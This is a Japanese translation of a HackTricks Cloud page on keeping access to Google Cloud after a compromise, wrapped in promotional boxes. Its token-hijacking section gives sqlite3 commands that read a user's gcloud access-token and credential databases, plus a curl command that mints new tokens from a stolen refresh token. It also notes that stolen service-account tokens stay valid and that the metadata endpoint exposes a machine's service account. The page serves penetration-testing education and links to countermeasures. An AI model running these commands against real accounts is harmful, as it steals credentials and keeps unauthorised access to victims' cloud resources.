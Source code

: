# GCP - 非svc永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する。

</details>

これらは、何らかの方法でGCPの資格情報やGCP環境で動作しているマシンを侵害した後に役立つテクニックです。

## トークンハイジャック

### 認証済みユーザー

GCPの**認証済みユーザー**のホームフォルダにアクセスできた場合、**デフォルト**では、認証する必要がなく、使用するマシンに依存せず、ユーザーがMFAを設定していても、そのユーザーのトークンを好きなだけ**取得できます**。

これは、デフォルトでは、新しいトークンを生成するために、リフレッシュトークンを好きなだけ**使用できる**からです。

ユーザーの現在のトークンを取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```
新しいアクセストークンを生成するための詳細を取得するには、以下を実行します:
```

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
```
新しいアクセストークンをリフレッシュトークン、クライアントID、クライアントシークレットを使って取得するには、以下を実行します:
```
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**Admin** > **Security** > **Google Cloud session control**で管理でき、デフォルトでは16時間に設定されていますが、期限切れにしない設定も可能です：

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### サービスアカウント

認証されたユーザーと同様に、サービスアカウントの**プライベートキーファイルを侵害**することができれば、通常は**好きなだけアクセスできます**。\
しかし、サービスアカウントの**OAuthトークンを盗む**ことができれば、これはさらに興味深いかもしれません。なぜなら、デフォルトではこれらのトークンは1時間しか役に立たないものの、**被害者がプライベートAPIキーを削除しても、OAuthトークンは有効期限が切れるまで有効**だからです。

### メタデータ

明らかに、GCP環境で動作しているマシン内にいる限り、メタデータエンドポイントに接触してそのマシンに添付されたサービスアカウントに**アクセスできます**（このエンドポイントでアクセスできるOAuthトークンは通常、スコープによって制限されていることに注意してください）。

### 対策

これらの技術に対するいくつかの対策は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksに広告を掲載したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
